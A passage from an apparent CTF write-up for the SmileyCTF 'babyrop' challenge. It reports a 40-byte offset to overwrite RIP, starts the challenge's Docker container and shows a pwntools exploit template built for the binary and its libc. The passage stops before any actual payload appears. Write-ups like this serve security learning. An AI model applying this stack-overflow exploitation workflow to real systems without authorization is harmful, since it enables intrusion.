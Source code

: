 Running the binary and providing the pattern string revealed an offset of 40 bytes. This means that after 40 bytes, the next 8 bytes will overwrite the RIP register.

![Pasted image 20250716062356](assets/images/SmileyCTF-babyrop/Pasted%20image%2020250716062356.png)

### Creating basic exploit script

To run the Docker container, it exposes port 42123.
```bash
docker-compose -f docker-compose.yml up
```


`pwntools` offers excellent features, and one of my favorites is its exploit template generation. Here's how I generated the template:


```bash
root@30ee3317d43a:/host# pwn template --host=127.0.0.1 --port=42123 --libc=./libc.so.6 --quiet ./vuln |tee exploit.py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './vuln')

host = args.HOST or '127.0.0.1'
port = int(args.PORT or 42123)

if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')
```